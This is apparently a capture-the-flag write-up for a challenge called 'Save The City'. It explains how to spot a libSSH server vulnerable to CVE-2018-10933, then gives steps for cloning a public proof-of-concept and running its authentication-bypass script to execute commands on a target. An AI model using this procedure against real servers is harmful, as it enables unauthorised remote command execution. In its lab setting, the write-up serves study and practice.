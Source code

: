 # Save The City

## Description

The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

## CVE-2018-10933 Proof of Concept

This repository contains a proof of concept for CVE-2018-10933.

### Installation

Clone the repository:

```bash
git clone https://github.com/blacknbunny/CVE-2018-10933.git
```

### Usage 

- Navigate to the cloned directory. 
- Run the exploit script with the appropriate parameters: 

```python libsshauthbypass.py --host <ip> --port <port> --command <command_line>``` 
Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute. 

### Example 

```python libsshauthbypass.py --host 192.168.1.100 --port 22 --command "whoami"``` 
This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.